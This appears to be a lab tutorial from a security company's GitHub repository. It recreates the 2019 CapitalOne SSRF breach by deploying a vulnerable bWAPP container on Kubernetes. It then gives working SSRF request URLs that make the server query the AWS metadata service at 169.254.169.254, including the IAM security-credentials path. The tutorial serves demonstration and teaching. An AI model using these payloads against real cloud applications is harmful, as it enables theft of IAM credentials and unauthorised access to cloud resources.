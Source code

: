 ==========================================
SSRF Attack - CapitalOne (Runs on AWS EKS)
==========================================

On 19th July 2019 **CapitalOne** was breached by an ex-aws employee exploiting a vulnerability on its Web Application Firewall (WAF) using Server Side Request Forgery, popularly known as SSRF attack.

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfwhat.png
 :width: 650
 :alt: what is ssrf?

Using the vulnerability, the attacker was able to download IAM credentials from AWS meta-data service, which is how AWS manages IAM roles to guard access to amazon resources. Underneath its API, AWS transparently rotates the short-lived credentials served by the metadata service.

For the demo, we will use an open-source app used for web attack testing called bwApp that has the same vulnerability.

There are 2 parts to this setup

1) Setup a container running vulnerable bWAPP where we can run SSRF attack
2) Get credential and access AWS S3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfdemosetup.png
 :width: 650
 :alt: what is ssrf?

Running the Vulnerable container in Kubernetes
==============================================

**Container:** We have already created a container with a vulnerable bWAPP app and its present at - quay.io/araalinetworks/ssrf

Download the deployment yaml and save it as deployment.yaml

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns bg-ssrf
    $ kubectl apply -f deployment.yaml -n bg-ssrf

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfgetposvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 80

http://20.81.5.36/install.php

Click on 'here' (Click 'here' to install bWAPP).

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfinstall.png
 :width: 350
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Attacking the App
==================================

Now pass attack parameter in the browser

1) Get information from metadata service

.. code-block:: RST
    
  http://20.81.5.36/rlfi.php?language=http://169.254.169.254/latest/meta-data&action=go

Replace 20.81.5.36 with your external-IP

2) Get IAM Role assigned to the container

.. code-block:: XML

   http://20.81.5.36/rlfi.php?language=http://169.254.169.254/latest/meta-data/iam/security-credentials&action=go

